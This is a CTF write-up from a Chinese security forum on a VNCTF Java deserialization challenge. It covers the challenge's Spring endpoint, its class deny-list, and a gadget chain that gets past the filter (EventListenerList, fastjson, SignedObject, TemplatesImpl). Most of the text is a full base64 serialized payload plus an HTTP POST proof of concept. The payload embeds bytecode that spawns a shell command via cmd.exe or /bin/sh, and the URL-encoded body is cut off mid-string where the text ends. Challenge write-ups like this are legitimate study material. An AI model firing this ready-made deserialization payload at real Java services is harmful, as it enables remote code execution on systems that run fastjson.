# VNCTF java 题目调用链分析-先知社区

> **来源**: https://xz.aliyun.com/news/16812  
> **文章ID**: 16812

---

# VNCTF java 题目调用链分析

## 前言

好久没有碰 CTF 了，然后看到有人发了一个 VNCTF 的 java 题目附件，正好没有事情做，然后做做题找找感觉，题目还是很不错的，主要找找调用链的感觉

## 题目源码

首先拿到题目简单分析一波依赖



依赖不多

然后我们看看源码

```
package com.example.javaguide.controller;

import com.example.javaguide.MyObjectInputStream;
import java.io.ByteArrayInputStream;
import java.io.InvalidClassException;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
/* loaded from: IndexController.class */
public class IndexController {
    @RequestMapping({"/"})
    @ResponseBody
    public String index() {
        return "hello";
    }

    @RequestMapping({"/deser"})
    @ResponseBody
    public String deserialize(@RequestParam String payload) {
        byte[] decode = Base64.getDecoder().decode(payload);
        try {
            MyObjectInputStream myObjectInputStream = new MyObjectInputStream(new ByteArrayInputStream(decode));
            myObjectInputStream.readObject();
            return "ok";
        } catch (InvalidClassException e) {
            return e.getMessage();
        } catch (Exception e2) {
            e2.printStackTrace();
            return "exception";
        }
    }
}

```

没有特别之处，就一个反序列化的入口

然后主要看看 waf

```
package com.example.javaguide;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;

/* loaded from: MyObjectInputStream.class */
public class MyObjectInputStream extends ObjectInputStream {
    public MyObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] denyClasses = {"com.sun.org.apache.xalan.internal.xsltc.trax", "javax.management", "com.fasterxml.jackson"};
//        String[] denyClasses = {};
        int length = denyClasses.length;
        for (String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}

```

看包名，一个应该是我们经常使用的出口类  
、

还有一个入口类



然后就是 jackson 的链子不能使用

那其实分析下来再根据依赖，感觉应该就是打 jdk 的原生类了吧，可能还需要一个触发 tostring 的然后去打 fastjson 的原生

但是最后还是需要利用到出口，那应该会涉及到二次反序列化了

## 利用链子分析

直接给出数据，调试者就能够理解到这个链子了，首先给出利用链子

```
EventListenerList原生-->Fastjson原生-->SignedObject二次反序列化-->TemplatesImpl出口
```



调试的话使用这个数据

```
rO0ABXNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHAAAAACdwQAAAACc3IAGmphdmEuc2VjdXJpdHkuU2lnbmVkT2JqZWN0Cf+9aCo81f8CAANbAAdjb250ZW50dAACW0JbAAlzaWduYXR1cmVxAH4AA0wADHRoZWFsZ29yaXRobXQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdXIAAltCrPMX+AYIVOACAAB4cAAAB02s7QAFc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAADHcIAAAAEAAAAAFzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA/////3VyAANbW0JL/RkVZ2fbNwIAAHhwAAAAAXVyAAJbQqzzF/gGCFTgAgAAeHAAAAPYyv66vgAAADIAQgEAaW9yZy9hcGFjaGUvYmVhbnV0aWxzL2NveW90ZS9kZXNlcmlhbGl6YXRpb24vc3RkL1N0ZERlbGVnYXRpbmdEZXNlcmlhbGl6ZXIzMmI4OGE4YWVkNjM0YWFhYjk4ZDU3NDQxNjUwMGIyNAcAAQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHAAMBAARiYXNlAQASTGphdmEvbGFuZy9TdHJpbmc7AQADc2VwAQADY21kAQAGPGluaXQ+AQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcACwwACQAKCgAEAA0BAAdvcy5uYW1lCAAPAQAQamF2YS9sYW5nL1N5c3RlbQcAEQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsMABMAFAoAEgAVAQAQamF2YS9sYW5nL1N0cmluZwcAFwEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsMABkAGgoAGAAbAQADd2luCAAdAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAB8AIAoAGAAhAQAHY21kLmV4ZQgAIwwABQAGCQACACUBAAIvYwgAJwwABwAGCQACACkBAAcvYmluL3NoCAArAQACLWMIAC0MAAgABgkAAgAvAQAYamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyBwAxAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgwACQAzCgAyADQBAAVzdGFydAEAFSgpTGphdmEvbGFuZy9Qcm9jZXNzOwwANgA3CgAyADgBABBqYXZhL2xhbmcvT2JqZWN0BwA6AQAIPGNsaW5pdD4BAARjYWxjCAA9CgACAA0BAARDb2RlAQANU3RhY2tNYXBUYWJsZQAhAAIABAAAAAMACQAFAAYAAAAJAAcABgAAAAkACAAGAAAAAgABAAkACgABAEAAAACEAAQAAgAAAFMqtwAOEhC4ABa2ABwSHrYAIpkAEBIkswAmEiizACqnAA0SLLMAJhIuswAqBr0AGFkDsgAmU1kEsgAqU1kFsgAwU0y7ADJZK7cANbYAOVenAARMsQABAAQATgBRAAwAAQBBAAAAFwAE/wAhAAEHAAIAAAllBwAM/AAABwA7AAgAPAAKAAEAQAAAABoAAgAAAAAADhI+swAwuwACWbcAP1exAAAAAAAAcHQAJDhkNjU4OGYzLTIyMDMtNDliNS1hNmE1LWNhYTUxNTU2NzM5YXB3AQB4c3IALmphdmF4Lm1hbmFnZW1lbnQuQmFkQXR0cmlidXRlVmFsdWVFeHBFeGNlcHRpb27U59qrYy1GQAIAAUwAA3ZhbHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hyABNqYXZhLmxhbmcuRXhjZXB0aW9u0P0fPho7HMQCAAB4cgATamF2YS5sYW5nLlRocm93YWJsZdXGNSc5d7jLAwAETAAFY2F1c2V0ABVMamF2YS9sYW5nL1Rocm93YWJsZTtMAA1kZXRhaWxNZXNzYWdlcQB+AAVbAApzdGFja1RyYWNldAAeW0xqYXZhL2xhbmcvU3RhY2tUcmFjZUVsZW1lbnQ7TAAUc3VwcHJlc3NlZEV4Y2VwdGlvbnN0ABBMamF2YS91dGlsL0xpc3Q7eHBwcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAHB4c3IAHmNvbS5hbGliYWJhLmZhc3Rqc29uLkpTT05BcnJheQAAAAAAAAABAgABTAAEbGlzdHEAfgATeHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAXcEAAAAAXEAfgAHeHh1cQB+AAYAAAAuMCwCFDjcSNGaocfSMBxka2dZM30DIh+YAhR+JgYGxAPwGsh+/5I8lJrtxVEutnQAA0RTQXNyACNqYXZheC5zd2luZy5ldmVudC5FdmVudExpc3RlbmVyTGlzdLE2xn2E6tZEAwAAeHB0ABBqYXZhLmxhbmcuU3RyaW5nc3IAHGphdmF4LnN3aW5nLnVuZG8uVW5kb01hbmFnZXLjKyF5THHKQgIAAkkADmluZGV4T2ZOZXh0QWRkSQAFbGltaXR4cgAdamF2YXguc3dpbmcudW5kby5Db21wb3VuZEVkaXSlnlC6U9uV/QIAAloACmluUHJvZ3Jlc3NMAAVlZGl0c3QAEkxqYXZhL3V0aWwvVmVjdG9yO3hyACVqYXZheC5zd2luZy51bmRvLkFic3RyYWN0VW5kb2FibGVFZGl0CA0bju0CCxACAAJaAAVhbGl2ZVoAC2hhc0JlZW5Eb25leHABAQFzcgAQamF2YS51dGlsLlZlY3RvctmXfVuAO68BAwADSQARY2FwYWNpdHlJbmNyZW1lbnRJAAxlbGVtZW50Q291bnRbAAtlbGVtZW50RGF0YXQAE1tMamF2YS9sYW5nL09iamVjdDt4cAAAAAAAAAABdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAZHNyAB5jb20uYWxpYmFiYS5mYXN0anNvbi5KU09OQXJyYXkAAAAAAAAAAQIAAUwABGxpc3R0ABBMamF2YS91dGlsL0xpc3Q7eHBzcQB+AAAAAAABdwQAAAABcQB+AAV4cHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBweAAAAAAAAABkcHh4
```

POC

```
POST /deser HTTP/1.1
Host: 127.0.0.1:8888
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=45B324D6588B085CCB0EBE866FF97AD0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

payload=%72%4f%30%41%42%58%4e%79%41%42%4e%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%51%58%4a%79%59%58%6c%4d%61%58%4e%30%65%49%48%53%48%5a%6e%48%59%5a%30%44%41%41%46%4a%41%41%52%7a%61%58%70%6c%65%48%41%41%41%41%41%43%64%77%51%41%41%41%41%43%63%33%49%41%47%6d%70%68%64%6d%45%75%63%32%56%6a%64%58%4a%70%64%48%6b%75%55%32%6c%6e%62%6d%56%6b%54%32%4a%71%5a%57%4e%30%43%66%2b%39%61%43%6f%38%31%66%38%43%41%41%4e%62%41%41%64%6a%62%32%35%30%5a%57%35%30%64%41%41%43%57%30%4a%62%41%41%6c%7a%61%57%64%75%59%58%52%31%63%6d%56%78%41%48%34%41%41%30%77%41%44%48%52%6f%5a%57%46%73%5a%32%39%79%61%58%52%6f%62%58%51%41%45%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%33%68%77%64%58%49%41%41%6c%74%43%72%50%4d%58%2b%41%59%49%56%4f%41%43%41%41%42%34%63%41%41%41%42%30%32%73%37%51%41%46%63%33%49%41%45%57%70%68%64%6d%45%75%64%58%52%70%62%43%35%49%59%58%4e%6f%54%57%46%77%42%51%66%61%77%63%4d%57%59%4e%45%44%41%41%4a%47%41%41%70%73%62%32%46%6b%52%6d%46%6a%64%47%39%79%53%51%41%4a%64%47%68%79%5a%58%4e%6f%62%32%78%6b%65%48%41%2f%51%41%41%41%41%41%41%41%44%48%63%49%41%41%41%41%45%41%41%41%41%41%46%7a%63%67%41%36%59%32%39%74%4c%6e%4e%31%62%69%35%76%63%6d%63%75%59%58%42%68%59%32%68%6c%4c%6e%68%68%62%47%46%75%4c%6d%6c%75%64%47%56%79%62%6d%46%73%4c%6e%68%7a%62%48%52%6a%4c%6e%52%79%59%58%67%75%56%47%56%74%63%47%78%68%64%47%56%7a%53%57%31%77%62%41%6c%58%54%38%46%75%72%4b%73%7a%41%77%41%47%53%51%41%4e%58%32%6c%75%5a%47%56%75%64%45%35%31%62%57%4a%6c%63%6b%6b%41%44%6c%39%30%63%6d%46%75%63%32%78%6c%64%45%6c%75%5a%47%56%34%57%77%41%4b%58%32%4a%35%64%47%56%6a%62%32%52%6c%63%33%51%41%41%31%74%62%51%6c%73%41%42%6c%39%6a%62%47%46%7a%63%33%51%41%45%6c%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%4e%73%59%58%4e%7a%4f%30%77%41%42%56%39%75%59%57%31%6c%64%41%41%53%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%37%54%41%41%52%58%32%39%31%64%48%42%31%64%46%42%79%62%33%42%6c%63%6e%52%70%5a%58%4e%30%41%42%5a%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%31%42%79%62%33%42%6c%63%6e%52%70%5a%58%4d%37%65%48%41%41%41%41%41%41%2f%2f%2f%2f%2f%33%56%79%41%41%4e%62%57%30%4a%4c%2f%52%6b%56%5a%32%66%62%4e%77%49%41%41%48%68%77%41%41%41%41%41%58%56%79%41%41%4a%62%51%71%7a%7a%46%2f%67%47%43%46%54%67%41%67%41%41%65%48%41%41%41%41%50%59%79%76%36%36%76%67%41%41%41%44%49%41%51%67%45%41%61%57%39%79%5a%79%39%68%63%47%46%6a%61%47%55%76%59%6d%56%68%62%6e%56%30%61%57%78%7a%4c%32%4e%76%65%57%39%30%5a%53%39%6b%5a%58%4e%6c%63%6d%6c%68%62%47%6c%36%59%58%52%70%62%32%34%76%63%33%52%6b%4c%31%4e%30%5a%45%52%6c%62%47%56%6e%59%58%52%70%62%6d%64%45%5a%58%4e%6c%63%6d%6c%68%62%47%6c%36%5a%58%49%7a%4d%6d%49%34%4f%47%45%34%59%57%56%6b%4e%6a%4d%30%59%57%46%68%59%6a%6b%34%5a%44%55%33%4e%44%51%78%4e%6a%55%77%4d%47%49%79%4e%41%63%41%41%51%45%41%51%47%4e%76%62%53%39%7a%64%57%34%76%62%33%4a%6e%4c%32%46%77%59%57%4e%6f%5a%53%39%34%59%57%78%68%62%69%39%70%62%6e%52%6c%63%6d%35%68%62%43%39%34%63%32%78%30%59%79%39%79%64%57%35%30%61%57%31%6c%4c%30%46%69%63%33%52%79%59%57%4e%30%56%48%4a%68%62%6e%4e%73%5a%58%51%48%41%41%4d%42%41%41%52%69%59%58%4e%6c%41%51%41%53%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%54%64%48%4a%70%62%6d%63%37%41%51%41%44%63%32%56%77%41%51%41%44%59%32%31%6b%41%51%41%47%50%47%6c%75%61%58%51%2b%41%51%41%44%4b%43%6c%57%41%51%41%54%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%30%56%34%59%32%56%77%64%47%6c%76%62%67%63%41%43%77%77%41%43%51%41%4b%43%67%41%45%41%41%30%42%41%41%64%76%63%79%35%75%59%57%31%6c%43%41%41%50%41%51%41%51%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%35%63%33%52%6c%62%51%63%41%45%51%45%41%43%32%64%6c%64%46%42%79%62%33%42%6c%63%6e%52%35%41%51%41%6d%4b%45%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%79%61%57%35%6e%4f%79%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%4d%41%42%4d%41%46%41%6f%41%45%67%41%56%41%51%41%51%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%77%63%41%46%77%45%41%43%33%52%76%54%47%39%33%5a%58%4a%44%59%58%4e%6c%41%51%41%55%4b%43%6c%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%4d%41%42%6b%41%47%67%6f%41%47%41%41%62%41%51%41%44%64%32%6c%75%43%41%41%64%41%51%41%49%59%32%39%75%64%47%46%70%62%6e%4d%42%41%42%73%6f%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%44%61%47%46%79%55%32%56%78%64%57%56%75%59%32%55%37%4b%56%6f%4d%41%42%38%41%49%41%6f%41%47%41%41%68%41%51%41%48%59%32%31%6b%4c%6d%56%34%5a%51%67%41%49%77%77%41%42%51%41%47%43%51%41%43%41%43%55%42%41%41%49%76%59%77%67%41%4a%77%77%41%42%77%41%47%43%51%41%43%41%43%6b%42%41%41%63%76%59%6d%6c%75%4c%33%4e%6f%43%41%41%72%41%51%41%43%4c%57%4d%49%41%43%30%4d%41%41%67%41%42%67%6b%41%41%67%41%76%41%51%41%59%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%42%79%62%32%4e%6c%63%33%4e%43%64%57%6c%73%5a%47%56%79%42%77%41%78%41%51%41%57%4b%46%74%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%73%70%56%67%77%41%43%51%41%7a%43%67%41%79%41%44%51%42%41%41%56%7a%64%47%46%79%64%41%45%41%46%53%67%70%54%47%70%68%64%6d%45%76%62%47%46%75%5a%79%39%51%63%6d%39%6a%5a%58%4e%7a%4f%77%77%41%4e%67%41%33%43%67%41%79%41%44%67%42%41%42%42%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%54%32%4a%71%5a%57%4e%30%42%77%41%36%41%51%41%49%50%47%4e%73%61%57%35%70%64%44%34%42%41%41%52%6a%59%57%78%6a%43%41%41%39%43%67%41%43%41%41%30%42%41%41%52%44%62%32%52%6c%41%51%41%4e%55%33%52%68%59%32%74%4e%59%58%42%55%59%57%4a%73%5a%51%41%68%41%41%49%41%42%41%41%41%41%41%4d%41%43%51%41%46%41%41%59%41%41%41%41%4a%41%41%63%41%42%67%41%41%41%41%6b%41%43%41%41%47%41%41%41%41%41%67%41%42%41%41%6b%41%43%67%41%42%41%45%41%41%41%41%43%45%41%41%51%41%41%67%41%41%41%46%4d%71%74%77%41%4f%45%68%43%34%41%42%61%32%41%42%77%53%48%72%59%41%49%70%6b%41%45%42%49%6b%73%77%41%6d%45%69%69%7a%41%43%71%6e%41%41%30%53%4c%4c%4d%41%4a%68%49%75%73%77%41%71%42%72%30%41%47%46%6b%44%73%67%41%6d%55%31%6b%45%73%67%41%71%55%31%6b%46%73%67%41%77%55%30%79%37%41%44%4a%5a%4b%37%63%41%4e%62%59%41%4f%56%65%6e%41%41%52%4d%73%51%41%42%41%41%51%41%54%67%42%52%41%41%77%41%41%51%42%42%41%41%41%41%46%77%41%45%2f%77%41%68%41%41%45%48%41%41%49%41%41%41%6c%6c%42%77%41%4d%2f%41%41%41%42%77%41%37%41%41%67%41%50%41%41%4b%41%41%45%41%51%41%41%41%41%42%6f%41%41%67%41%41%41%41%41%41%44%68%49%2b%73%77%41%77%75%77%41%43%57%62%63%41%50%31%65%78%41%41%41%41%41%41%41%41%63%48%51%41%4a%44%68%6b%4e%6a%55%34%4f%47%59%7a%4c%54%49%79%4d%44%4d%74%4e%44%6c%69%4e%53%31%68%4e%6d%45%31%4c%57%4e%68%59%54%55%78%4e%54%55%32%4e%7a%4d%35%59%58%42%33%41%51%42%34%63%33%49%41%4c%6d%70%68%64%6d%46%34%4c%6d%31%68%62%6d%46%6e%5a%57%31%6c%62%6e%51%75%51%6d%46%6b%51%58%52%30%63%6d%6c%69%64%58%52%6c%56%6d%46%73%64%57%56%46%65%48%42%46%65%47%4e%6c%63%48%52%70%62%32%37%55%35%39%71%72%59%79%31%47%51%41%49%41%41%55%77%41%41%33%5a%68%62%48%51%41%45%6b%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%54%32%4a%71%5a%57%4e%30%4f%33%68%79%41%42%4e%71%59%58%5a%68%4c%6d%78%68%62%6d%63%75%52%58%68%6a%5a%58%42%30%61%57%39%75%30%50%30%66%50%68%6f%37%48%4d%51%43%41%41%42%34%63%67%41%54%61%6d%46%32%59%53%35%73%59%57%35%6e%4c%6c%52%6f%63%6d%39%33%59%57%4a%73%5a%64%58%47%4e%53%63%35%64%37%6a%4c%41%77%41%45%54%41%41%46%59%32%46%31%63%32%56%30%41%42%56%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%52%6f%63%6d%39%33%59%57%4a%73%5a%54%74%4d%41%41%31%6b%5a%58%52%68%61%57%78%4e%5a%58%4e%7a%59%57%64%6c%63%51%42%2b%41%41%56%62%41%41%70%7a%64%47%46%6a%61%31%52%79%59%57%4e%6c%64%41%41%65%57%30%78%71%59%58%5a%68%4c%32%78%68%62%6d%63%76%55%33%52%68%59%32%74%55%63%6d%46%6a%5a%55%56%73%5a%57%31%6c%62%6e%51%37%54%41%41%55%63%33%56%77%63%48%4a%6c%63%33%4e%6c%5a%45%56%34%59%32%56%77%64%47%6c%76%62%6e%4e%30%41%42%42%4d%61%6d%46%32%59%53%39%31%64%47%6c%73%4c%30%78%70%63%33%51%37%65%48%42%77%63%48%56%79%41%42%35%62%54%47%70%68%64%6d%45%75%62%47%46%75%5a%79%35%54%64%47%46%6a%61%31%52%79%59%57%4e%6c%52%57%78%6c%62%57%56%75%64%44%73%43%52%69%6f%38%50%50%30%69%4f%51%49%41%41%48%68%77%41%41%41%41%41%48%42%34%63%33%49%41%48%6d%4e%76%62%53%35%68%62%47%6c%69%59%57%4a%68%4c%6d%5a%68%63%33%52%71%63%32%39%75%4c%6b%70%54%54%30%35%42%63%6e%4a%68%65%51%41%41%41%41%41%41%41%41%41%42%41%67%41%42%54%41%41%45%62%47%6c%7a%64%48%45%41%66%67%41%54%65%48%42%7a%63%67%41%54%61%6d%46%32%59%53%35%31%64%47%6c%73%4c%6b%46%79%63%6d%46%35%54%47%6c%7a%64%48%69%42%30%68%32%5a%78%32%47%64%41%77%41%42%53%51%41%45%63%32%6c%36%5a%58%68%77%41%41%41%41%41%58%63%45%41%41%41%41%41%58%45%41%66%67%41%48%65%48%68%31%63%51%42%2b%41%41%59%41%41%41%41%75%4d%43%77%43%46%44%6a%63%53%4e%47%61%6f%63%66%53%4d%42%78%6b%61%32%64%5a%4d%33%30%44%49%68%2b%59%41%68%52%2b%4a%67%59%47%78%41%50%77%47%73%68%2b%2f%35%49%38%6c%4a%72%74%78%56%45%75%74%6e%51%41%41%30%52%54%51%58%4e%79%41%43%4e%71%59%58%5a%68%65%43%35%7a%64%32%6c%75%5a%79%35%6c%64%6d%56%75%64%43%35%46%64%6d%56%75%64%45%78%70%63%33%52%6c%62%6d%56%79%54%47%6c%7a%64%4c%45%32%78%6e%32%45%36%74%5a%45%41%77%41%41%65%48%42%30%41%42%42%71%59%58%5a%68%4c%6d%